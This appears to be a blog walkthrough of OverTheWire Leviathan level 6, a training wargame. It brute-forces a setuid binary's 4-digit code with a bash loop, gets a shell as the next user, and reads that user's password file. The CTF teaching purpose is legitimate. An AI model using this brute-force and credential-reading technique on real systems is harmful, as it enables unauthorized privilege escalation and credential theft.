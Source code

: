 ```yaml
---
title: Overthewire Leviathan Level 6
date: '2022-03-02 23:40:00'
description: ''
categories: [OverTheWire, Leviathan]
tags: [overthewire, leviathan]
---
```


Solution for the Overthewire.org [Leviathan level 6](https://overthewire.org/wargames/leviathan/leviathan6.html){:target="\_blank"}

## Level Goal  

There is no information for this level, intentionally.

## Walkthrough

Login to the server using the password obtained from the previous level [Leviathan level 5]({% post_url 2022-03-02-leviathan5 %}).

username: `leviathan6`

```ssh
ssh leviathan6@leviathan.labs.overthewire.org -p 2223
```

Check the home directory.

```shell
leviathan6@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 7452 Aug 26  2019 leviathan6
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan6` with the suid bit set.
When we run `leviathan6` it tells us it expects a 4 digit code.

```shell
leviathan6@leviathan:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
```

We can brute force this using a bash script to generate all digits from 0000 to 9999

```shell
leviathan6@leviathan:~$ for i in {0000..9999}; do ./leviathan6 $i; done
```

Now just wait while all digits are tested. When the correct one is used we get a new shell.

```shell
Wrong
Wrong
Wrong
Wrong
Wrong
Wrong
$
```

Using `id` we can see we have a shell as `leviathan7`. We can read the password file directly.

```shell
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)

$ cat /etc/leviathan_pass/leviathan7
ahy*******
```

